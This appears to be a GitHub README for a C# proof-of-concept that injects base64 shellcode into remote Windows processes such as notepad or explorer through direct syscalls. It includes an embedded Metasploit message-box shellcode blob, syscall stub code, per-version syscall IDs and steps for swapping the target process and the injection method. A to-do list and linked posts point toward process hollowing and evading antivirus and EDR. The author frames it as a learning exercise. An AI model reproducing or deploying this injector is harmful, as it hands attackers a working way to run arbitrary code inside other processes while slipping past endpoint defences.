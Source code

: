 # directInjectorPOC

Small program written in C#, compatible with .NET >= v3.5 . Only x64. Works from ws 2008 up to the latest windows 10 update. 

Created as a way to learn more about direct syscalls and their implementation in C#. 

The program uses direct syscalls to perform the shellcode allocation/injection and the remote thread creation. The only imports are GetSystemInfo, RtlGetVersion and VirtualProtectEx.

The shellcode can be easily generated using tools like donut (https://github.com/TheWover/donut/)

### Usage: 

Shellcode alloc/injec methods: 
- ALLOCWRITE: Uses NtAllocateVirtualMemory and ZwWriteVirtualMemory to allocate and write the shellcode in the remote process
- OPENSEC: Uses NtCreateSection to create a new section and NtMapViewOfSection to map it to the local and remote process.

By default the program injects into "notepad" using the ALLOCWRITE write method. This can be easily modified by changing line 18 
```
Inject("notepad", osV, ALLOCWRITE);
```
can be changed to 
```
Inject("explorer", osV, OPENSEC);
```
to inject the shellcode into explorer.exe using the OPENSEC method. 

The shellcode must be in base64 and assigned to the "s" variable on line 91
```
//msf messagebox x64
string s = @"/EiB5PD////o0AAAAEFRQVBSUVZIMdJlSItSYD5Ii1IYPkiLUiA+SItyUD5ID7dKSk0xyUgxwKw8YXwCLCBBwckNQQHB4u1SQVE+SItSID6LQjxIAdA+i4CIAAAASIXAdG9IAdBQPotIGD5Ei0AgSQHQ41xI/8k+QYs0iEgB1k0xyUgxwKxBwckNQQHBOOB18T5MA0wkCEU50XXWWD5Ei0AkSQHQZj5BiwxIPkSLQBxJAdA+QYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVo+SIsS6Un///9dScfBAAAAAD5IjZX+AAAAPkyNhQMBAABIMclBukWDVgf/1UgxyUG68LWiVv/VZ2F0bwBNZXNzYWdlQm94AA==";
```

### Dev:

Take a look at syscalls.cs. To create a new syscall:
- Add the syscall ID to each windows version inside the sysDic dictionary.  
- Create its function delegate inside the Delegates struct
- Create a function thar runs GetDelegateForFunctionPointer and invokes the delegate functions (you can just copy paste any of the current ones and change them a little bit to adjust your needs) 
- If needed, create the required structs inside nativeStructs.cs

For example, if we would like to implement NtClose we can do the following:
```
...
            { "win10-1507", new Dictionary<string, byte>()
                {
                    { "openprocess",0x26},
                    { "allocatevirtualmem", 0x18},
                    { "writevirtualmem", 0x3A},
                    { "createremthread", 0xB3},
                    { "createsection", 0x4A },
                    { "mapviewofsec", 0x28 },
                    { "close", 0x0F }
                }
            },
...
```
```
public struct Delegates{
...
            [SuppressUnmanagedCodeSecurity]
            [UnmanagedFunctionPointer(CallingConvention.Cdecl)]
            public delegate int NtClose(IntPtr handler);
...
```
```
        public static NTSTATUS NtClose(IntPtr handle, string os)
        {
            byte[] syscall = syscallSkeleton;
            syscall[4] = sysDic[os]["close"];

            unsafe
            {
                fixed (byte* ptr = syscall)
                {

                    IntPtr memoryAddress = (IntPtr)ptr;

                    if (!VirtualProtectEx(Process.GetCurrentProcess().Handle, memoryAddress,
                        (UIntPtr)syscall.Length, 0x40, out uint oldprotect))
                    {
                        throw new Win32Exception();
                    }

                    Delegates.NtClose myAssemblyFunction = (Delegates.NtClose)Marshal.GetDelegateForFunctionPointer(memoryAddress, typeof(Delegates.NtClose));

                    return (NTSTATUS)myAssemblyFunction(handle);
                }
            }
        }
```

##### ToDo:

  - Implement more ways to write our shellcode in a remote process (process hollowing, dll hollowing, etc)
  - New execution methods (steal them from pinjectra :) )
  - Try to avoid the use of VirtualProtectEx when allocating our shellcode
  - Try catch everything just in case

  
##### Links of interest:

  - https://ired.team/offensive-security/code-injection-process-injection/ntcreatesection-+-ntmapviewofsection-code-injection
  - https://ired.team/offensive-security/code-injection-process-injection/process-injection
  - https://github.com/TheWover/donut/
  - https://github.com/b4rtik/SharpMiniDump/
  - https://github.com/outflanknl/Dumpert (tool)  https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/ (blog)


